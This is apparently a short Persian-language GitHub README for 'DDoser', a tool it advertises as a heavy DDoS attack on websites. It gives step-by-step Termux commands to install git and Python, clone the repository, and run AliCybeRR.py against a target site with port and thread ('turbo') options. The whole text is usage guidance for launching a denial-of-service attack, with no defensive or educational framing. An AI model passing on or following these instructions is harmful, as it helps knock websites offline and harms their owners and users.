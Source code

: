 # DDoser
دیداس سنگین به سایت
ابتدا وارد ترموکس شین و دستورات زیر بزنین
 
apt update 

apt upgrade -y

pkg install git -y

pkg install python -y

git clone https://github.com/LoveRoob/DDoser

cd DDoser 

ls

chmod +x AliCybeRR.py

ls

python AliCybeRR.py

خب حالا باید اینجوری بزنین 
python AliCybeRR.py -s سایت -p 80 t-200 
میتونید پورت و توربو هم تغییر بدین
